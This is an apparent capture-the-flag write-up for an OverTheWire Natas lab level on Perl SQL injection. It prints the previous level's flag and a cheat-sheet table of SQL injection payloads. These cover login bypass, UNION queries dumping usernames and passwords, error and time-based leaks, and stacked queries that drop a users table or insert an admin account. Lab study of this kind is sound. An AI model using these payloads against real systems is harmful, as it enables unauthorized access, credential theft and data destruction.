 # Natas Level 29 → Level 30 PERL SQL Injection

## Previous Flag
<b>WQhx1BvcmP9irs2MP9tRnLsNaDI76YrH</b>

## Goal
Username: natas30<br>
URL: http://natas30.natas.labs.overthewire.org<br>

Username: <br>
Password: <br>
login

| Payload                                                | Type                    | Description                                                      |
|--------------------------------------------------------|-------------------------|------------------------------------------------------------------|
| `' OR '1'='1' -- `                                     | Auth Bypass             | Always true string condition; bypass login                      |
| `' OR 1=1 -- `                                         | Auth Bypass             | Numeric always true condition                                   |
| `' OR '1'='1' #`                                       | Auth Bypass             | MySQL version with hash comment                                 |
| `' OR '1'='1' /*`                                      | Auth Bypass             | Bypass using multi-line comment style                           |
| `' OR 1=1 LIMIT 1 -- `                                 | Auth Bypass             | Limits query result to one row                                  |
| `' UNION SELECT null, null -- `                        | Union-Based             | Basic union injection for 2-column queries                      |
| `' UNION SELECT username, password FROM users -- `     | Union-Based             | Dump user data from `users` table                               |
| `' UNION SELECT 1, @@version -- `                      | Union-Based             | Leak DB version                                                  |
| `' AND 1=CONVERT(int, (SELECT @@version)) -- `         | Error-Based             | Trigger SQL error to reveal DB version (MSSQL)                  |
| `' AND 1=CAST((SELECT user()) AS INT) -- `             | Error-Based             | Trigger error to leak DB user info (MySQL/PostgreSQL)           |
| `' OR IF(1=1, SLEEP(5), 0) -- `                        | Time-Based Blind (MySQL)| Delays if condition is true                                     |
| `' OR pg_sleep(5) -- `                                 | Time-Based Blind (Postgres)| Delay-based blind injection                                  |
| `' OR 1=1; WAITFOR DELAY '00:00:05' -- `               | Time-Based Blind (MSSQL)| Time delay to test true condition                               |
| `'; DROP TABLE users; -- `                             | Stacked Queries         | Drops a table (if multiple queries are allowed)                 |
| `'; INSERT INTO logins VALUES ('admin','pass'); -- `   | Stacked Queries         | Adds an admin user                                               |
| `' ORDER BY 1 -- `                                     | Column Discovery        | Used to test number of columns in result set                    |
| `' ORDER BY 2 -- `                                     | Column Discovery        | Increment to find total columns                                 |
| `' ORDER BY 3 -- `                                     | Column Discovery        | If error: query has fewer than 3 columns                        |

## What I learned
```
Google: perl mysql injection vulnerable
https://security.stackexchange.com/questions/175703/is-this-perl-database-connection-vulnerable-to-sql-injection
```
